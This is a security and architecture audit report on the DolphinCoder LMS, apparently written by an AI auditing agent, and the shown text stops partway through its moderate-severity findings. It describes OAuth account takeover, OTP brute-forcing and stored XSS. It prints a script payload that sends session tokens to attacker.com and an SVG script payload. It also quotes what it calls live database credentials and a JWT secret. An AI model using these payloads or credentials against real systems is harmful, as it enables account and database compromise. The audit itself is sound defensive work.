

# DolphinCoder LMS: Comprehensive Code Quality, Security & Architecture Audit Report

**Document ID:** `AUDIT-DC-2026-V1`  
**Auditor Role:** Agent 6: Code Quality, Security & Architecture Auditor  
**Scope:** Backend (`backend/`), Frontend (`frontend/`), Flutter Mobile (`app/dolphincoder/`), DevOps & Seed Scripts (`scripts/`), Test Suites (`backend/tests/`, `frontend/tests/`, `app/dolphincoder/test/`)  
**Target Architecture:** Multi-platform LMS (Node.js/Express/Sequelize/MySQL + React/Vite + Flutter/Dart/Riverpod)  
**Constraint Enforced:** Zero Source Code Modifications (Audit & Analysis Only)

---

## 1. Executive Summary & Audit Overview

An exhaustive, end-to-end code audit was performed across all repositories and submodules composing the **DolphinCoder LMS** platform. The audit identified **36 distinct issues** categorized across three severity tiers:

- **Critical Severity (12 Issues):** High-impact security vulnerabilities (Account Takeover, Stored XSS, Credential Leaking in Git History), non-transactional destructive database operations causing permanent data loss, unmanaged native resource/memory leaks in mobile audio services, and a broken user registration flow on the web application.
- **Moderate Severity (15 Issues):** Architectural anti-patterns including streaming binary audio (`LONGBLOB`) directly through single-connection MySQL queries with a 5-connection pool limit, in-memory N+1 aggregation loops on user activities, destructive catch-all routing in Express, aggressive auto-migrators dropping valid indexes, timezone desynchronization in gamification streaks, and massive monolithic UI components (up to 5,715 lines in a single file).
- **Minute Severity (9 Issues):** Dead Mongoose error branches, unreferenced NPM packages (`express-validator`), mock tests performing static string assertions rather than runtime validation, test artifact spills in the Flutter project root, and inconsistent console logging in production startup hooks.

---

## 2. Audit Methodology & Scope

The audit evaluated the source code using multiple analytical lenses:
1. **Security & Threat Modeling:** OWASP Top 10 (2021/2026), authentication/authorization flows, token lifecycle, rate-limiting efficacy, file upload validation, and secret hygiene.
2. **Database Integrity & Concurrency:** ACID compliance, Sequelize transaction scoping, locking mechanics (`LOCK.UPDATE`), deadlocks, connection pool saturation, and indexing strategies.
3. **Application Performance & Resource Lifecycle:** Memory management, audio player disposal, event loop blocking (sync I/O), bundle chunking, and database query optimization.
4. **State Synchronization & Cross-Platform Parity:** Discrepancies between Web React and Flutter Mobile implementations (notably in auth flows and timezone handling).
5. **Testing Hygiene & Anti-Tamper Realism:** Evaluation of test harnesses for artificial serialization, mock fidelity, and sandbox isolation bypasses.

---

## 3. Comprehensive Vulnerability & Issue Matrix

| Issue ID | Title | Severity | Subsystem | Primary File Location | Blast Radius |
| :--- | :--- | :--- | :--- | :--- | :--- |
| **SEC-01** | Production Database & JWT Credentials Committed to Git History | **Critical** | Backend / Config | `backend/.env.example` (Commit `526bb1c`) | Full Infrastructure Compromise |
| **SEC-02** | Google OAuth Account Takeover (ATO) via Unverified Request Body Email | **Critical** | Backend / Auth | `backend/controllers/authController.js:484` | Arbitrary User & Admin Account Hijacking |
| **SEC-03** | Lack of Rate Limiting & Attempt Lockout on 6-Digit Password Reset & OTP | **Critical** | Backend / Auth | `backend/controllers/authController.js:121,361,405` | Account Takeover via OTP Brute-Force |
| **SEC-04** | Stored Cross-Site Scripting (XSS) via Unsanitized HTML Note Upload | **Critical** | Full-Stack | `backend/controllers/noteController.js:194`, `frontend/src/pages/NoteDetailPage.jsx:292` | Session Hijacking & Admin Token Theft |
| **SEC-05** | Stored XSS via Arbitrary SVG Upload & Disabled Content Security Policy | **Critical** | Full-Stack | `backend/routes/pages.js:38`, `backend/server.js:24` | Persistent DOM Exploitation & Defacement |
| **SEC-06** | Active JWT Session Invalidation Omission on Password Change/Reset | **Critical** | Backend / Auth | `backend/controllers/authController.js:290,414` | Compromised Session Persistence |
| **SEC-07** | Rewarded Ad SSV Cryptographic Signature Bypass Endpoint | **Critical** | Backend / Economy | `backend/controllers/gamificationController.js:1110`, `backend/routes/gamification.js:39` | In-Game Economy & Oxygen Arbitrary Inflation |
| **DB-01** | Non-Transactional Deletion & Re-creation in Quiz Submission Causing Data Loss | **Critical** | Backend / Database | `backend/controllers/quizController.js:235-295` | Irrecoverable Progress & Grade Destruction |
| **DB-02** | Severely Under-Provisioned Production Connection Pool (`max: 5`) | **Critical** | Backend / Database | `backend/config/database.js:44-50` | Server-Wide Connection Starvation & 504 Timeouts |
| **DB-03** | Missing Unique Composite Key on Curriculum Lessons Causing Duplicate Seeding | **Critical** | Backend / Models | `backend/models/CurriculumLesson.js:108-114` | Data Duplication & Duplicate Lesson Rendering |
| **FE-01** | Broken Web Registration Flow: OTP Required by API but Absent in Frontend UI | **Critical** | Frontend / Auth | `frontend/src/pages/Register.jsx:14-15` | Total Registration Block for All Web Users |
| **MOB-01** | Unmanaged Native AudioPlayer Allocation on Sensory Feedback Fallback | **Critical** | Mobile / Audio | `app/dolphincoder/lib/core/services/sound_effects_service.dart:105-180` | Native Audio Channel Exhaustion & Mobile Crash |
| **SEC-08** | Content Security Policy (CSP) & COEP Explicitly Disabled in Helmet | **Moderate** | Backend / Security | `backend/server.js:24` | Complete Loss of Browser Defense-in-Depth |
| **SEC-09** | HTML Template Injection in Password Reset & Email Verification Services | **Moderate** | Backend / Email | `backend/services/emailService.js:41,69,126,154` | Phishing & Visual Spoofing via Transactional Emails |
| **SEC-10** | Database Error Stack Trace & Internal SQL Exposure on 500 Responses | **Moderate** | Backend / Middleware | `backend/middleware/errorHandler.js:2-3,48-52` | Information Disclosure of Schema & SQL Syntax |
| **DB-04** | Streaming Binary Audio (`LONGBLOB`) via SQL Queries on 5-Connection Pool | **Moderate** | Backend / Media | `backend/controllers/noteController.js:402-467` | Complete Database Pool Starvation by 2 Concurrent Streamers |
| **DB-05** | Non-Atomic View Count Increment on Video GET Endpoint | **Moderate** | Backend / Controllers | `backend/controllers/videoController.js:58-59` | Lost Updates, Table Contention & Write Thrashing |
| **DB-06** | Unindexed In-Memory Activity Summary Aggregation & JSON Parsing Loop | **Moderate** | Backend / Analytics | `backend/controllers/activityController.js:64-92` | High CPU Latency & Memory Spikes on Dashboard |
| **DB-07** | Catch-All Route Intercepts 404 API Calls Returning 200 OK HTML in Production | **Moderate** | Backend / Server | `backend/server.js:162-190` | API Client Deserialization Failure & Silent Errors |
| **DB-08** | Synchronous File Reading in SSR Dynamic OpenGraph/SEO Route | **Moderate** | Backend / Server | `backend/server.js:179` | Node.js Single-Threaded Event Loop Freezes |
| **DB-09** | Additive Migrator Drops Legitimate Custom User Indexes Ending in `_\d+` | **Moderate** | Backend / Migrations | `backend/utils/schemaMigrator.js:30` | Unexpected Performance Degradation via Index Loss |
| **DB-10** | Unhandled Database Boot Connection Failure Continues Serving Dead Traffic | **Moderate** | Backend / Database | `backend/config/database.js:78-81` | Zombie Process Accepting Requests Destined to Fail |
| **DB-11** | UTC vs Client Local Date Discrepancy in Gamification Streaks | **Moderate** | Backend / Gamification | `backend/controllers/gamificationController.js:530` | Premature Streak Breaks or Double Increments for Non-UTC Users |
| **DB-12** | Race Condition in Daily Quests Generation on Parallel Requests | **Moderate** | Backend / Gamification | `backend/controllers/gamificationController.js:945-975` | Duplicate Daily Quests & Multiplied Rewards |
| **FE-02** | Sensitive JWT Stored in Browser `localStorage` (XSS Vulnerable) | **Moderate** | Frontend / Security | `frontend/src/contexts/AuthContext.jsx:19-20` | Account Hijacking via Any Script Injection |
| **FE-03** | Global Axios Interceptor Forces Destructive Full-Page Reload on Any 401 | **Moderate** | Frontend / Network | `frontend/src/api/axios.js:33-37` | Destructive UX & Lost Ephemeral Form State |
| **MOB-02** | Monolithic 5,715-Line `lesson_session_screen.dart` Architecture Bottleneck | **Moderate** | Mobile / Architecture | `app/dolphincoder/lib/features/gamification/screens/lesson_session_screen.dart` | High Memory Footprint, Re-render Jitter & Maintenance Fragility |
| **TST-01** | Concurrency Tests Tested Against Artificially Serialized SQLite Queue | **Critical** | Testing / Database | `backend/config/database.js:27-34`, `backend/tests/concurrency_and_integrity.test.js` | False Confidence: Real MySQL Concurrency Failures Masked |
| **SEC-11** | Hardcoded Admin and Student Production Credentials in Test Files & Scripts | **Moderate** | DevOps / Testing | `backend/tests/hostinger_live.test.js:25-33`, `backend/scripts/benchmark_hostinger.js:23-31` | Credential Leakage & Unauthorized Account Access |
| **MOB-03** | Aggressive 300ms Audio Timeout Triggers Error Cascades on Budget Devices | **Moderate** | Mobile / Audio | `app/dolphincoder/lib/core/services/sound_effects_service.dart:103,128,153` | Audio Failure Cascades & Logcat Noise |
| **FE-04** | Monolithic 1,500+ Line Component Trees Lacking Modularity | **Moderate** | Frontend / Components | `frontend/src/pages/KaraokeNoteReader.jsx`, `frontend/src/pages/CurriculumPage.jsx` | Bloated DOM, State Coupling & Memory Overhead |
| **DEV-01** | PM2 Cluster Mode with In-Memory Rate Limiting & File-Based Version Gate | **Moderate** | DevOps / Architecture | `backend/ecosystem.config.js:7-8`, `backend/server.js:36-37` | Multiplied Rate-Limit Budgets & Desynchronized State |
| **MIN-01** | Dead Mongoose Error Handling Branches in Sequelize Error Handler | **Minute** | Backend / Middleware | `backend/middleware/errorHandler.js:5-16,25-29` | Code Hygiene & Maintenance Confusion |
| **MIN-02** | Unreferenced `express-validator` Dependency in Backend `package.json` | **Minute** | Backend / Dependencies | `backend/package.json:20` | Phantom Dependency & Unused Package Overhead |
| **MIN-03** | 26 UUID Test Directories Cluttering Root of Flutter Submodule | **Minute** | Mobile / Cleanliness | `app/dolphincoder/*-*` | Git/Submodule Bloat & Repository Hygiene |
| **MIN-04** | Missing Bidirectional HasMany Associations in Sequelize Config | **Minute** | Backend / Models | `backend/models/associations.js:16-30` | Inability to Query Reverse Relations (`User.hasMany(Note)`) |

---

## 4. Category 1: Critical Severity Issues

### SEC-01: Production Database & JWT Credentials Committed to Git History
- **Severity:** Critical
- **Subsystem:** Backend / Configuration & Version Control
- **Location:** `backend/.env.example` (Committed in Git Commit `526bb1cbe576a908d8421513e610246967214a31`)
- **Root Cause Analysis:** During commit `526bb1c`, live production credentials for the Hostinger MySQL database (`DB_USER=u437576467_lmsuser`, `DB_PASSWORD=Shiramine@1`, `DB_NAME=u437576467_lms`) and the production JWT signing secret (`JWT_SECRET=dolphinCoderLMS2026ProductionSecretKeyX9a7b3c8d2e1f4g5h6`) were committed directly into `backend/.env.example`. While subsequent commits updated `.env.example` with placeholder strings, the credentials remain in the immutable Git commit history.
- **Impact & Blast Radius:** Anyone with read access to the Git repository (or an exposed `.git` directory on the web server) can retrieve the database password to connect directly to the MySQL host, or use the JWT secret to forge valid authentication tokens with `role: "admin"` for arbitrary user IDs, achieving total system takeover.
- **Remediation Strategy:**
  1. Immediately rotate the Hostinger MySQL database password for user `u437576467_lmsuser`.
  2. Generate a new, cryptographically random `JWT_SECRET` (minimum 64 characters) on the production server, which will safely invalidate all previously forged tokens.
  3. Purge the sensitive commit from Git history using tools like `git-filter-repo` or BFG Repo-Cleaner, and force-push all branches and tags.

---

### SEC-02: Google OAuth Account Takeover (ATO) via Unverified Request Body Email
- **Severity:** Critical
- **Subsystem:** Backend / Authentication Controller
- **Location:** `backend/controllers/authController.js`, Lines 473–495, 513–524
- **Root Cause Analysis:** In the `googleLogin` controller, when an `accessToken` is provided, the backend queries Google's token info endpoint:
  ```javascript
  const tokenInfo = await client.getTokenInfo(accessToken);
  payload = {
      sub: tokenInfo.sub,
      email: tokenInfo.email || req.body.email, // <-- FLAW: Falls back to client-provided body
      ...
  };
  ```
  If an OAuth access token lacks the `email` scope, `tokenInfo.email` is null, and the backend falls back to `req.body.email`. Subsequently, on line 514:
  ```javascript
  if (!user && email) {
      user = await User.findOne({ where: { email } });
      if (user) {
          user.googleId = googleId;
          await user.save();
      }
  }
  ```
  The backend finds the user matching the attacker-supplied `email` and permanently links the attacker's `googleId` to the victim's account, issuing a full JWT session token on line 553.
- **Impact & Blast Radius:** Full Account Takeover. An attacker obtaining any valid Google OAuth access token (even for their own personal throwaway account) can supply `req.body.email = "admin@dolphincoder.com"` and be instantly logged in as the Administrator with full administrative privileges.
- **Remediation Strategy:**
  1. Never trust client-supplied input (`req.body.email`) for authentication identity.
  2. Require that Google OAuth verification strictly relies on Google's cryptographically signed ID token (`verifyIdToken`) with verified audience matching, or ensure `tokenInfo.email` is non-null and `tokenInfo.email_verified === true`. Reject the request with HTTP 401 if Google does not return a verified email.

---

### SEC-03: Lack of Rate Limiting & Attempt Lockout on 6-Digit Password Reset & OTP
- **Severity:** Critical
- **Subsystem:** Backend / Authentication & OTP Verification
- **Location:** `backend/controllers/authController.js`, Lines 121–127 (`verifyRegistrationOtp`), Lines 361–369 (`verifyOtp`), Lines 405–411 (`resetPassword`)
- **Root Cause Analysis:** The system uses 6-digit numerical OTPs (`crypto.randomInt(100000, 1000000)` = 900,000 combinations) valid for 15 minutes. However:
  1. There is no tracking of failed attempts (no attempt counter).
  2. The OTP is not invalidated upon multiple wrong attempts.
  3. The general auth rate limiter allows 100 requests per 15 minutes, which with PM2 cluster mode allows several hundred requests, and distributed requests easily bypass it entirely.
- **Impact & Blast Radius:** An attacker knowing a victim's email address can trigger `/api/auth/forgot-password` and execute a distributed brute-force attack against `/api/auth/reset-password` or `/api/auth/verify-otp`. With 900,000 combinations over 15 minutes, automated scripts can guess the OTP and overwrite the victim's password.
- **Remediation Strategy:**
  1. Implement an attempt counter on the `User` model (e.g. `otpAttempts`).
  2. Limit failed OTP submissions to 3 or 5 attempts. If exceeded, immediately clear `resetPasswordOtp` and `resetPasswordOtpExpires`, locking the request until a new OTP is requested.
  3. Implement strict IP and email-based rate limits specifically on `/api/auth/verify-otp` and `/api/auth/reset-password` using a Redis-backed rate limiter.

---

### SEC-04: Stored Cross-Site Scripting (XSS) via Unsanitized HTML Note Upload
- **Severity:** Critical
- **Subsystem:** Full-Stack (Backend Note Controller & React Note Detail Page)
- **Location:** `backend/controllers/noteController.js`, Lines 194–196; `frontend/src/pages/NoteDetailPage.jsx`, Line 292
- **Root Cause Analysis:** 
  1. In `uploadNoteFile`, if the file extension is `.html` or `.htm`:
     ```javascript
     content = req.file.buffer.toString('utf8');
     contentType = 'html';
     ```
     The raw HTML buffer is read and stored directly into the database without sanitization (e.g., without `sanitize-html` or `DOMPurify`).
  2. In the React frontend (`frontend/src/pages/NoteDetailPage.jsx` Line 292):
     ```jsx
     <div className="ProseMirror prose-invert max-w-none text-gray-200"
          dangerouslySetInnerHTML={{ __html: note.content }} />
     ```
     The raw HTML is rendered directly via `dangerouslySetInnerHTML` without client-side sanitization.
- **Impact & Blast Radius:** Stored Cross-Site Scripting (XSS). Any user with a trainer account (or student if note creation permissions are broad) can upload a file containing `<script>fetch('https://attacker.com/steal?token=' + localStorage.getItem('token'))</script>`. When an administrator or student opens the note, the script executes, exfiltrating the JWT session token from `localStorage` and compromising the user's account.
- **Remediation Strategy:**
  1. On the backend, sanitize all incoming HTML strings before database insertion using a hardened server-side HTML sanitizer (stripping `<script>`, `<iframe>`, `onload`, `onerror`, and dangerous URI schemes).
  2. On the frontend, pass all content through `DOMPurify.sanitize()` prior to providing it to `dangerouslySetInnerHTML`.
  3. Re-enable a strict `Content-Security-Policy` header in Helmet.

---

### SEC-05: Stored XSS via Arbitrary SVG Upload & Disabled Content Security Policy
- **Severity:** Critical
- **Subsystem:** Full-Stack (Backend Pages Route & Frontend Page Viewer)
- **Location:** `backend/routes/pages.js`, Lines 37–46; `backend/server.js`, Lines 24 & 91; `frontend/src/pages/PublicPageView.jsx`, Line 198
- **Root Cause Analysis:** 
  1. The Multer file filter allows SVG files:
     ```javascript
     const allowed = /jpeg|jpg|png|gif|webp|svg\+xml|svg/;
     ```
  2. SVG files can contain embedded XML JavaScript payloads (`<svg xmlns="http://www.w3.org/2000/svg"><script>alert(1)</script></svg>`).
  3. Uploaded files are served directly as static files from `/uploads` (`backend/server.js:91`).
  4. In `backend/server.js:24`, Helmet's Content Security Policy is disabled (`helmet({ contentSecurityPolicy: false })`).
  5. In `PublicPageView.jsx:198`, dynamic page contents are injected into `dangerouslySetInnerHTML` without sanitization.
- **Impact & Blast Radius:** An uploaded SVG loaded directly in the browser executes JavaScript within the origin domain of `dolphincoder.com`, allowing cookie/storage theft, session hijacking, and defacement of custom landing pages.
- **Remediation Strategy:**
  1. Disallow SVG uploads entirely for image uploads, or sanitize SVGs with an XML/SVG sanitizer like `svg-purifier` before saving to disk.
  2. Re-encode raster images (JPEG, PNG, WebP) using Sharp (as done in `curriculumController.js`) rather than saving raw client bytes.
  3. Serve uploaded files with `Content-Disposition: attachment` or host user uploads on an isolated cookieless domain (e.g. `uploads.dolphincoder.com` or an S3/Cloudflare R2 bucket) with a strict CSP.

---

### SEC-06: Active JWT Session Invalidation Omission on Password Change/Reset
- **Severity:** Critical
- **Subsystem:** Backend / Authentication & Token Management
- **Location:** `backend/controllers/authController.js`, Lines 278–296 (`changePassword`), Lines 384–427 (`resetPassword`)
- **Root Cause Analysis:** When a user changes or resets their password, `user.password` is updated and saved. However, JWT tokens are stateless, valid for 7 days (`JWT_EXPIRE=7d`), and contain only `{ id: user.id }`. The backend does not maintain a token blacklist or a `tokenVersion` / `passwordChangedAt` timestamp check in `protect` middleware (`backend/middleware/auth.js`).
- **Impact & Blast Radius:** If an account is compromised and an attacker holds an active JWT, a legitimate user resetting their password will NOT disconnect the attacker. The compromised token remains 100% authorized and functional for up to 7 full days.
- **Remediation Strategy:**
  1. Add a `tokenVersion` (integer) or `passwordChangedAt` (Date) column to the `User` model.
  2. Embed `tokenVersion` in the JWT payload when calling `user.getSignedJwtToken()`.
  3. In `middleware/auth.js`, verify that the token's version matches the user's current `tokenVersion`, rejecting stale tokens with HTTP 401. Increment `tokenVersion` on every password change and reset.

---

### SEC-07: Rewarded Ad SSV Cryptographic Signature Bypass Endpoint
- **Severity:** Critical
- **Subsystem:** Backend / Gamification & In-Game Economy
- **Location:** `backend/controllers/gamificationController.js`, Lines 1110–1198 (`claimAdReward`); `backend/routes/gamification.js`, Line 39
- **Root Cause Analysis:** The backend implements a legitimate AdMob Server-Side Verification (SSV) callback endpoint (`/admob/ssv` in `handleAdMobReward`) that validates ECDSA cryptographic signatures against Google's public keys. However, it also exposes a parallel client-accessible endpoint `POST /api/gamification/claim-ad-reward` (`claimAdReward`):
  ```javascript
  // No signature check, no verification of ad impression
  if (rewardType === 'oxygen') user.oxygen = Math.min(5, previousOxygen + 3);
  else if (rewardType === 'pearls') user.pearls = (user.pearls || 0) + 25;
  ```
- **Impact & Blast Radius:** Any authenticated user can issue automated curl requests to `POST /api/gamification/claim-ad-reward` to instantly grant themselves pearls (+25) and full oxygen refills (+3) up to the daily cap without ever watching an ad or triggering AdMob network revenue.
- **Remediation Strategy:**
  1. Deprecate and remove `claimAdReward` from public routes.
  2. Strictly require all rewarded ad transactions to originate from verified AdMob Server-Side Verification (SSV) callbacks via `handleAdMobReward`.

---

### DB-01: Non-Transactional Deletion & Re-creation in Quiz Submission Causing Data Loss
- **Severity:** Critical
- **Subsystem:** Backend / Quiz Controller & Database Integrity
- **Location:** `backend/controllers/quizController.js`, Lines 235–237, 286–294
- **Root Cause Analysis:** In `submitAttempt`, previous quiz attempts and activity logs are deleted before creating the new attempt:
  ```javascript
  await QuizAttempt.destroy({
      where: { quizId: quiz.id, studentId: req.user.id },
  });
  // ... grading calculations ...
  const attempt = await QuizAttempt.create({ ... });
  ```
  Neither operation is wrapped inside a Sequelize transaction (`sequelize.transaction`).
- **Impact & Blast Radius:** If the server experiences an unhandled error, database timeout, or pool disconnection after line 235 but before line 286, the user's prior quiz attempt and grade are permanently deleted from the database. Furthermore, this design destroys all historical student records, leaving zero historical audit trail for instructors.
- **Remediation Strategy:**
  1. Wrap all write operations within an atomic Sequelize managed transaction (`await sequelize.transaction(async (t) => { ... })`).
  2. Refactor quiz attempts to preserve history: append new attempts with an incremented `attemptNumber` rather than destroying prior attempts, using soft flags or queries (`order: [['attemptNumber', 'DESC']]`) to fetch the latest attempt.

---

### DB-02: Severely Under-Provisioned Production Connection Pool (`max: 5`)
- **Severity:** Critical
- **Subsystem:** Backend / Database Configuration
- **Location:** `backend/config/database.js`, Lines 44–50
- **Root Cause Analysis:** The production MySQL connection pool is configured with:
  ```javascript
  pool: {
      max: 5,
      min: 0,
      acquire: 30000,
      idle: 10000,
  }
  ```
  In production, every single authenticated API request executes `User.findByPk` in `middleware/auth.js`. Media streaming (`streamAudioFromDb`) executes 2 SQL queries per range request. Long transactions in gamification lock connections.
- **Impact & Blast Radius:** Under real-world usage, as few as 6 concurrent HTTP requests will exhaust the connection pool. The 6th request will block for 30,000ms (30 seconds) until hitting `ConnectionAcquireTimeoutError`, triggering 500 errors and complete platform responsiveness collapse.
- **Remediation Strategy:**
  1. Increase `pool.max` to a reasonable capacity based on the Hostinger MySQL tier (e.g. `max: 25` or `max: 50`).
  2. Implement caching (e.g. Redis or an in-memory LRU cache) for `User.findByPk` in `middleware/auth.js` to avoid hitting MySQL on every static API call.

---

### DB-03: Missing Unique Composite Key on Curriculum Lessons Causing Duplicate Seeding
- **Severity:** Critical
- **Subsystem:** Backend / Models & Database Schema
- **Location:** `backend/models/CurriculumLesson.js`, Lines 108–114; `scripts/seed_section_1.js`, Lines 83–85
- **Root Cause Analysis:** The `CurriculumLesson` table defines non-unique indexes on `(learningLanguage, nativeLanguage, level, unitNumber, lessonIndex)`:
  ```javascript
  indexes: [
      { fields: ['learningLanguage', 'nativeLanguage', 'level', 'isLive', 'unitNumber'] },
      { fields: ['isLive', 'learningLanguage', 'nativeLanguage', 'level', 'unitNumber', 'lessonIndex'] },
  ]
  ```
  In `scripts/seed_section_1.js`, records are inserted with:
  ```javascript
  await CurriculumLesson.bulkCreate(chunk, {
      updateOnDuplicate: ['title', 'subtitle', 'nodeType', 'xpReward', 'pearlsReward', 'stages', 'isLive']
  });
  ```
  Because MySQL `ON DUPLICATE KEY UPDATE` requires a unique or primary key conflict to trigger an update, and the composite index is non-unique while `id` is omitted in the seed chunk, MySQL performs an `INSERT` rather than an `UPDATE`.
- **Impact & Blast Radius:** Running the seed script multiple times without `--force` results in duplicate curriculum lessons for every unit. Queries like `findAll` return duplicated and conflicting lesson nodes, corrupting the learner path on mobile and web.
- **Remediation Strategy:**
  1. Add a composite unique index on `['learningLanguage', 'nativeLanguage', 'level', 'unitNumber', 'lessonIndex']` named `unique_curriculum_lesson_node`.
  2. Ensure seed scripts match against this unique key during `bulkCreate`.

---

### FE-01: Broken Web Registration Flow: OTP Required by API but Absent in Frontend UI
- **Severity:** Critical
- **Subsystem:** Frontend / Authentication Flow
- **Location:** `frontend/src/pages/Register.jsx`, Lines 14–16; `frontend/src/contexts/AuthContext.jsx`, Lines 43–45
- **Root Cause Analysis:** 
  1. When backend added email OTP verification to `authController.register`, the registration endpoint stops returning a JWT token upon registration, instead returning:
     ```json
     { "success": true, "requireVerification": true, "email": "user@example.com" }
     ```
  2. In `frontend/src/contexts/AuthContext.jsx`:
     ```javascript
     const { data } = await api.post('/auth/register', { name, email, password, role });
     saveAuth(data.token, data.user); // data.token is undefined!
     ```
  3. In `frontend/src/pages/Register.jsx`:
     ```javascript
     const result = await register(form.name, form.email, form.password, 'student');
     if (result.success) navigate('/dashboard');
     ```
  4. The web application has no OTP input screen or dialog. It saves `localStorage.setItem('token', undefined)` and immediately navigates the unverified user to `/dashboard`.
- **Impact & Blast Radius:** Every single new user registering via the web application is immediately greeted with failed API requests (401 Unauthorized) across the dashboard and is locked out of using the platform.
- **Remediation Strategy:**
  1. Implement an OTP Verification Modal or route (`/verify-email`) on the React frontend matching the mobile application's `verify_email_screen.dart`.
  2. When `data.requireVerification` is true, redirect the user to enter their 6-digit OTP and call `/api/auth/verify-registration-otp` before storing the JWT and redirecting to `/dashboard`.

---

### MOB-01: Unmanaged Native AudioPlayer Allocation on Sensory Feedback Fallback
- **Severity:** Critical
- **Subsystem:** Mobile (Flutter) / Audio Services
- **Location:** `app/dolphincoder/lib/core/services/sound_effects_service.dart`, Lines 105, 130, 155, 180
- **Root Cause Analysis:** In `SoundEffectsService`, if an asset player fails or is null, fallback synthesized PCM audio buffers are played using:
  ```dart
  } else if (_popFallbackWav != null) {
      final p = AudioPlayer();
      await p.play(BytesSource(_popFallbackWav!), volume: 1.0).timeout(const Duration(milliseconds: 300));
  }
  ```
  Notice that `final p = AudioPlayer()` allocates a new native audio player instance via platform channels on every single tap, and `p.dispose()` is NEVER called.
- **Impact & Blast Radius:** Native Memory & Channel Leak. During interactive lesson stages (such as word matching or rapid tapping), dozens of unmanaged native `AudioPlayer` instances are instantiated. On Android and iOS, the OS audio server runs out of hardware audio tracks (`AudioTrack` limit in Android AudioFlinger), leading to silent audio failures, Logcat crashes, and out-of-memory terminations.
- **Remediation Strategy:**
  1. Do not allocate anonymous `AudioPlayer` instances on user click events.
  2. Reuse a dedicated single fallback `AudioPlayer` instance initialized in `_doInit()`, and ensure all players are disposed in `dispose()`.

---

## 5. Category 2: Moderate Severity Issues

### SEC-08: Content Security Policy (CSP) & COEP Explicitly Disabled in Helmet
- **Severity:** Moderate
- **Subsystem:** Backend / Security Headers
- **Location:** `backend/server.js`, Line 24
- **Root Cause Analysis:** Helmet is invoked with CSP disabled:
  ```javascript
  app.use(helmet({ contentSecurityPolicy: false, crossOriginEmbedderPolicy: false }));
  ```
- **Impact & Blast Radius:** Browser defense-in-depth is eliminated. Combined with issues SEC-04 and SEC-05, browser-based mitigation against inline script execution, unauthorized script inclusion, and data exfiltration is neutralized.
- **Remediation Strategy:** Re-enable Helmet's CSP with a tailored directive set allowing necessary external origins (Google Fonts, AdMob, YouTube embeds) while prohibiting inline untrusted script execution.

---

### SEC-09: HTML Template Injection in Password Reset & Email Verification Services
- **Severity:** Moderate
- **Subsystem:** Backend / Email Services
- **Location:** `backend/services/emailService.js`, Lines 41, 69, 126, 154
- **Root Cause Analysis:** In `generateResetEmailTemplate` and `generateVerificationEmailTemplate`, `userName` is interpolated directly into raw HTML:
  ```javascript
  const greetingName = userName ? userName : 'Learner';
  // ...
  <p>Hi <strong>${greetingName}</strong>,</p>
  ```
- **Impact & Blast Radius:** If a user registers with a name like `John Doe<script>...` or `<a href="...">`, arbitrary HTML elements are injected into outgoing transactional emails sent from `support@dolphincoder.com`, enabling email phishing, layout manipulation, and spam filter blacklisting.
- **Remediation Strategy:** HTML-escape `userName` using an entity encoder (`he.encode` or a simple escape function replacing `&`, `<`, `>`, `"`, `'`) before template interpolation.

---

### SEC-10: Database Error Stack Trace & Internal SQL Exposure on 500 Responses
- **Severity:** Moderate
- **Subsystem:** Backend / Error Handling Middleware
- **Location:** `backend/middleware/errorHandler.js`, Lines 2–3, 48–52
- **Root Cause Analysis:** In `errorHandler`, `err.message` is returned to the client:
  ```javascript
  let message = err.message || 'Server Error';
  res.status(statusCode).json({ success: false, message, ... });
  ```
  When Sequelize encounters a database error (e.g. `SequelizeDatabaseError: Table 'users' doesn't exist`), `err.message` contains raw SQL queries, column names, and database syntax.
- **Impact & Blast Radius:** Information disclosure: internal database schemas, column names, and infrastructure details are exposed to end users and potential attackers on 500 errors.
- **Remediation Strategy:** Mask 500-level error messages in production to a generic `'Internal Server Error'` while logging the full exception internally to secure server logs.

---

### DB-04: Streaming Binary Audio (`LONGBLOB`) via SQL Queries on 5-Connection Pool
- **Severity:** Moderate
- **Subsystem:** Backend / Media Streaming Architecture
- **Location:** `backend/controllers/noteController.js`, Lines 402–467
- **Root Cause Analysis:** Karaoke audio files are stored directly in MySQL as `LONGBLOB` (`karaoke_audios` table). When clients request audio ranges (e.g. scrubbing or progressive download), `streamAudioFromDb` runs two raw SQL queries (`LENGTH(audioData)` and `SUBSTR(audioData, ...)`) per HTTP 206 chunk.
- **Impact & Blast Radius:** With a connection pool capped at 5 (`pool.max: 5`), just 2 or 3 users listening to a karaoke story simultaneously monopolize all MySQL connections, starving every other API route (login, quiz submissions, dashboard).
